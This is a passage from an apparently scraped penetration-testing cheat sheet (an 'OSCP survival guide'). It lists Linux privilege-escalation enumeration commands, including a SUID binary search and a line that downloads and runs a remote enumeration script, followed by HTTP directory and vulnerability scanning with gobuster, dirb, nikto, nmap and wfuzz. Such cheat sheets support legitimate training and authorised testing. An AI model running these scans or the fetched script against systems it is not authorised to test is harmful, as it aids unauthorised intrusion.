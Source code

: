     *   `/usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\; 2>/dev/null`

    *   Get handy linux file system enumeration script (/var/tmp)  
        `wget https://highon.coffee/downloads/linux-local-enum.sh` `chmod +x ./linux-local-enum.sh` `./linux-local-enum.sh`

    *   Find executable files updated in August  
        `find / -executable -type f 2> /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug`

    *   Find a specific file on linux  
        `find /. -name suid\*`

    *   Find all the strings in a file  
        `strings <filename>`

    *   Determine the type of a file  
        `file <filename>`

*   ## [](https://x89k.tk/infosec/2018/11/03/oscpsurvivalguide.html#http-enumeration)HTTP Enumeration

    *   Search for folders with gobuster:  
        `gobuster -w /usr/share/wordlists/dirb/common.txt -u $ip`

    *   OWasp DirBuster - Http folder enumeration - can take a dictionary file

    *   Dirb - Directory brute force finding using a dictionary file  
        `dirb http://$ip/ wordlist.dict` `dirb <http://vm/>`

        Dirb against a proxy

    *   `dirb [http://$ip/](http://172.16.0.19/) -p $ip:3129`

    *   Nikto  
        `nikto -h $ip`

    *   HTTP Enumeration with NMAP  
        `nmap --script=http-enum -p80 -n $ip/24`

    *   Nmap Check the server methods  
        `nmap --script http-methods --script-args http-methods.url-path='/test' $ip`

    *   Get Options available from web server `curl -vX OPTIONS vm/test`

    *   Uniscan directory finder:  
        `uniscan -qweds -u <http://vm/>`

    *   Wfuzz - The web brute forcer

        `wfuzz -c -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?FUZZ=test`

        `wfuzz -c --hw 114 -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?page=FUZZ`

        `wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt "$ip:60080/?page=mailer&mail=FUZZ"`

        `wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 404 $ip/FUZZ`

        Recurse level 3
